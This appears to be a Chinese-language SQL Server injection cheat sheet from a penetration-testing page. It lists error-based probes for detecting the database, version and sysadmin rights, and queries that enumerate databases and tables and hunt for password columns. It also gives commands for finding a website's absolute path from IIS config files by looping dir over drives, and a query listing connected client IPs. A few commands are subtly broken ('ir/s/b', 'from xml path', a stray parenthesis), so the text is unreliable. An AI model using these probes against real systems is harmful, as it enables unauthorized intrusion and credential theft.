 ## 基础查询

### 数据库确定

`select 1/iif((select count(*) from sysobjects )>0,1,0)`

### 版本

`select @@version`
`select 1/iif(SUBSTRING(@@version,22,4)='2014',1,0)`

### 权限

`select IS_SRVROLEMEMBER('sysadmin'));--`

### 站库分离

`select @@SERVERNAME`
`select host_name()`
### 获取数据库
当前数据库: `select db_name()`
获取全部数据库:`select name from master..sysdatabases for xml path`
### 数据表
获取用户表:`select * from sysobjects where xtype='U'`
获取所以用户表`select name from sysobjects where xtype='U' from xml path`

### 搜索含关键字的表,列
`select table_name from information_schema.tables where table_name like '%pass%'`
`select column_name,table_name from information_schema.columns where column_name like '%pass%'`

### 获取网站绝对路径
```cmd
高权限启动2005或者2008
C:\Windows\system32\inetsrv\metabase.xml        #iis6
C:\Windows\System32\inetsrv\config\applicationHost.config       #iis7

DIR命令寻找路径
ir/s/b c:\index.aspx
/s      #列出所有子目录下的文件和文件夹
/b      #只列出路径和文件名，别的属性全部不显示

循环盘符
for %i in (c d e f g h i j k l m n o p q r s t u v w x v z) do @(dir/s/b %i:\sql.aspx)
```
### 查看xx数据库连接的IP

```sql
select DISTINCT client_net_address,local_net_address from sys.dm_exec_connections where Session_id IN (select session_id from sys.dm_exec_Sessions where host_name IN (SELECT hostname FROM master.dbo.sysprocesses WHERE DB_NAME(dbid) = 'xx'));
```
